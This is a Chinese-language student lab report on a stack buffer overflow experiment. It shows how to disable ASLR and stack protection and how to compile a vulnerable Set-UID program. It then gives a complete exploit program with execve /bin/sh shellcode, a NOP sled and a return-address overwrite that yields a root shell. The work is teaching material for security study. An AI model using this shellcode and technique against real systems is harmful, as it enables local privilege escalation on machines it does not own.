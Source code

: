 # 缓冲区溢出漏洞实验的实验报告

## 实验目的

利用缓冲区溢出漏洞，通过 shellcode 获得 linux 下的 root 权限。

## 实验原理

我们的攻击目标是以下一段含有缓冲区溢出漏洞的代码：

```c
void function(const char *str)
{
    char buffer[12];
    /* The following statement has a buffer overflow problem */ 
    strcpy(buffer, str);
}
```

程序中 ``strcpy`` 函数的调用将 ``str`` 指向的内容复制到 ``buffer`` 中，而 `buffer` 的大小只有最多 $12$ 个字节，当 ``str`` 多于 $12$ 个字节时，栈中大于 ``buffer`` 地址的部分数据就会被改写。

通过构造 ``str`` 字符串包含的内容，使其包含一段二进制代码，并且将栈中的返回地址覆盖为这段代码在内存中的地址，即可使被攻击的程序执行该代码。

## 实验步骤

### 1 实验准备

1. 本次实验为了方便观察汇编语句，我们需要在 32 位环境下操作，因此实验之前需要做一些准备。

   输入命令安装一些用于编译 32 位 C 程序的软件包：

   ```bash
   $ sudo apt-get update
   
   $ sudo apt-get install -y lib32z1 libc6-dev-i386
   
   $ sudo apt-get install -y lib32readline-gplv2-dev
   ```

2. 现代操作系统具有一些对缓冲区溢出的防御措施，如将栈地址随机化 —— 每次运行同一个程序时，栈的地址不同，也就无法得知构造的二进制代码被写入到内存中的位置。为了进行实验，我们可以临时关闭（直到重新启动）这一特性：

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

3. 此外，为了进一步防范缓冲区溢出攻击及其它利用 shell 程序的攻击，许多shell程序在被调用时自动放弃它们的特权。因此，即使你能欺骗一个 Set-UID 程序调用一个 shell，也不能在这个 shell 中保持 root 权限，这个防护措施在 `/bin/bash` 中实现。
linux 系统中，`/bin/sh` 实际是指向 `/bin/bash` 或 `/bin/dash` 的一个符号链接。为/了重现这一防护措施被实现之前的情形，我们使用另一个 shell 程序（zsh）代替 `/bin/bash`。下面的指令描述了如何设置 zsh 程序：

```bash
$ sudo su

$ cd /bin

$ rm sh

$ ln -s zsh sh

$ exit
```

4. 输入命令“`linux32`”进入32位linux环境，输入“`/bin/bash`”使用bash 。

### 2 shellcode

一般情况下，缓冲区溢出会造成程序崩溃，在程序中，溢出的数据覆盖了返回地址。而如果覆盖返回地址的数据是另一个地址，那么程序就会跳转到该地址，如果该地址存放的是一段精心设计的代码用于实现其他功能，这段代码就是 shellcode。

编写以下用以打开 shell 的代码：

```c
#include <stdio.h>
int main()
{
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

本次实验的 shellcode，就是刚才代码的汇编版本：

```shell
\x31\xc0\x50\x68"//sh"\x68"/bin"\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

### 3 漏洞程序

漏洞程序 ``stack.c`` 内容如下：

```c
/* stack.c */

/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void function(const char *str)
{
    char buffer[12];
    /* The following statement has a buffer overflow problem */ 
    strcpy(buffer, str);
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    function(str);

    printf("Returned Properly\n");
    return 1;
}
```

该程序从文件 ``badfile`` 中读入数据并存入 ``buffer`` 中。

编译该程序，并设置 SET-UID。命令如下：

```bash
$ sudo su

$ gcc -m32 -g -z execstack -fno-stack-protector -o stack stack.c

$ chmod u+s stack

$ exit
```

> GCC编译器有一种栈保护机制来阻止缓冲区溢出，所以我们在编译代码时需要用 `–fno-stack-protector` 关闭这种机制。 而 `-z execstack` 用于允许执行栈。
>
> `-g` 参数是为了使编译后得到的可执行文档能用 `gdb` 调试。
>
> chmod u+s 可以给程序的所有者以suid权限，可以像root用户一样操作。

### 4 攻击程序

```c
/* exploit.c */
/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[] =
    "\x31\xc0" //xorl %eax,%eax
    "\x50"     //pushl %eax
    "\x68""//sh" //pushl $0x68732f2f
    "\x68""/bin"     //pushl $0x6e69622f
    "\x89\xe3" //movl %esp,%ebx
    "\x50"     //pushl %eax
    "\x53"     //pushl %ebx
    "\x89\xe1" //movl %esp,%ecx
    "\x99"     //cdq
    "\xb0\x0b" //movb $0x0b,%al
    "\xcd\x80" //int $0x80
    ;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */
    strcpy(buffer,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x??\x??\x??\x??");   //在buffer特定偏移处起始的四个字节覆盖sellcode地址  
    strcpy(buffer + 100, shellcode);   //将shellcode拷贝至buffer，偏移量设为了 100

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

注意上面的代码，`\x??\x??\x??\x??` 处需要添上 `shellcode` 保存在内存中的地址，因为发生溢出后这个位置刚好可以覆盖返回地址。而 `strcpy(buffer+100,shellcode);` 这一句又告诉我们，`shellcode` 保存在 `buffer + 100` 的位置。

如何获得该地址便是进行攻击的关键所在，下面将详细介绍如何获得我们需要添加的地址。

我们的方法是通过 gdb 调试来获得该地址。输入命令：

```bash
# gdb 调试
$ gdb stack

$ disass main
```

结果如图：

![pic1](/home/kyleyoung/Pictures/pic1.png)

通过设置断点并输出 ``$esp$`` 的值，进一步计算就可以获得我们需要的地址：

![pic2](/home/kyleyoung/Pictures/pic2.png)

计算可得 shellcode 的地址 `shellcode` 的地址为 `0xffffd2d0(十六进制) + 0x64(100的十六进制) = 0xffffd334(十六进制)`(这一步的具体数值需根据实际结果计算)。

现在修改exploit.c文件！将 \x??\x??\x??\x?? 修改为 \x34\xd3\xff\xff，然后编译 `exploit.c` 程序：

```bash
$ gcc -m32 -o exploit exploit.c
```

![pic3](/home/kyleyoung/Pictures/pic3.png)

可见，我们成功地利用缓冲区溢出漏洞打开了 shell 并获得了 root 权限。

## 遗留问题

在本机上如何获得 shellcode 的地址并获得 root 权限。